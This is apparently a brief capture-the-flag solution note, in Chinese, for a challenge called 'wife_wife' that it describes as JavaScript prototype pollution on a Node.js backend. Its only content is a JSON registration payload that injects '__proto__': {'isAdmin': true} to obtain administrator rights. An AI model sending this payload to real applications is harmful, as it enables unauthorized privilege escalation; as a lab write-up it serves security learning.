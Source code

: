 # wife_wife
涉及javascript原型连污染,后端语言为node.js
```
{
"username":"3",
"password":"3",
"__proto__":
    {
    "isAdmin":true
    }
}
```